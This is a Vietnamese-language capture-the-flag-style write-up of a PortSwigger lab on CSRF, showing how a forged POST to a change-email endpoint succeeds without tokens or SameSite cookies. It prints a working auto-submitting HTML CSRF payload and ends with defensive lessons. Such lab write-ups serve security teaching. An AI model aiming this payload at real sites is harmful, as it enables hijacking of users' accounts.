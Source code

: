 # Write-up: CSRF vulnerability with no defenses

### Tổng quan
Khai thác lỗ hổng Cross-Site Request Forgery (CSRF) trong chức năng thay đổi email của ứng dụng, nơi không có bất kỳ cơ chế bảo vệ CSRF nào. Yêu cầu POST `/my-account/change-email` không yêu cầu token CSRF, và cookie phiên không có thuộc tính `SameSite`, cho phép gửi yêu cầu giả mạo từ một trang web độc hại. Sử dụng payload HTML trong Exploit Server để gửi form POST giả mạo, thay đổi email của nạn nhân và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CSRF bằng cách gửi yêu cầu POST giả mạo đến `/my-account/change-email` mà không cần token CSRF, tận dụng việc thiếu cơ chế bảo vệ, thay đổi email của nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và thay đổi email thành `1111@gmail.com` tại `/my-account/change-email`:
    ![email](./images/1_change_email.png)

- Quan sát:
    - Yêu cầu POST không chứa tham số `csrf`, cho thấy ứng dụng không sử dụng token CSRF.
    - Cookie session không có thuộc tính `SameSite`, cho phép gửi trong các yêu cầu cross-site:

2. **Khai thác (Exploitation)**
- Sử dụng công cụ PoC của Burp Suite Professional để tạo payload CSRF gửi yêu cầu POST:
    ```xml
    <html>
      <body>
        <form action="https://0a4b00a003daa0f7809c800600fe0094.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="2222@gmail.com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
    ![body](./images/2_body.png)
- **Ý tưởng payload**:
    - Form POST gửi tham số `email=2222@gmail.com` đến `/my-account/change-email`.
    - Script `history.pushState('', '', '/')` thay đổi URL trình duyệt để tránh hiển thị URL đáng ngờ.
    - Script `document.forms[0].submit()` tự động gửi form, thực hiện yêu cầu POST giả mạo.
    - Cookie `session` của nạn nhân được gửi kèm do thiếu `SameSite`, và yêu cầu được xử lý vì không cần token CSRF.

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, form gửi yêu cầu POST, thay đổi email thành `2222@gmail.com` và hoàn thành lab.
      ![solved](./images/3_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CSRF bằng cách gửi yêu cầu POST giả mạo đến `/my-account/change-email` mà không cần token CSRF, tận dụng việc thiếu hoàn toàn cơ chế bảo vệ CSRF.
- Nhận thức tầm quan trọng của việc triển khai CSRF token ngẫu nhiên và duy nhất, áp dụng kiểm tra token cho mọi yêu cầu nhạy cảm, cấu hình `SameSite=Strict` hoặc `Lax` cho cookie để ngăn chặn các cuộc tấn công CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác CSRF trong môi trường không có cơ chế bảo vệ, nhấn mạnh tầm quan trọng của việc triển khai CSRF token, kiểm tra token cho mọi yêu cầu nhạy cảm, và cấu hình `SameSite` hợp lý để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*
